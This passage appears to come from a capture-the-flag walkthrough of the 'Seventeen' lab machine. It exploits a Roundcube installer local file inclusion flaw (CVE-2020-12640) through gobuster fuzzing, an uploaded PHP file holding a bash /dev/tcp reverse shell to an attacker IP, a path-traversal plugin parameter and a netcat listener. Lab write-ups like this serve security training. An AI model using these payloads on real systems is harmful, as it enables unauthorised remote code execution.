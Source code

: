 where by searching up the [**CVE-2020-12640](https://www.cvedetails.com/cve/CVE-2020-12640/) github, we eventually find** https://github.com/DrunkenShells/Disclosures/tree/master/CVE-2020-12640-PHP%20Local%20File%20Inclusion-Roundcube

This exploit requires the /installer to be present, we can check by:

```bash
http://mastermailer.seventeen.htb:8000/mastermailer/installer
```

![image.png]({{ site.baseurl }}/assets/seventeen//image%2019.png)

Now we have to fuzz the stud_no directory to see if there are any directories that exist, if there is, we have to name the php code the same name as that dir:

```bash
gobuster dir -u http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234 -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt -d 

papers/
```

Now we have to upload a file papers.php. Let’s get a straight reverse shell this time:

```bash
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.16.6/4444 0>&1'"); ?>
```

Now upload papers.php

![image.png]({{ site.baseurl }}/assets/seventeen//image%2020.png)

Now let’s turn on intercept and capture a request from installer:

```bash
http://mastermailer.seventeen.htb:8000/mastermailer/installer/index.php?_step=2
```

Now click update config:

![image.png]({{ site.baseurl }}/assets/seventeen//image%2021.png)

Send the request to repeater and change the value of _step2  to this:

```bash
_step=2&_product_name=Roundcube+Webmail&***TRUNCATED***&_plugins_qwerty=../../../../../../../../../../var/www/html/oldmanagement/files/31234/papers&submit=UPDATE+CONFIG
```

![image.png]({{ site.baseurl }}/assets/seventeen//image%2022.png)

![image.png]({{ site.baseurl }}/assets/seventeen//image%2023.png)

Finally, let’s start listener and visit:

```bash
nc -lnvp 4444
```
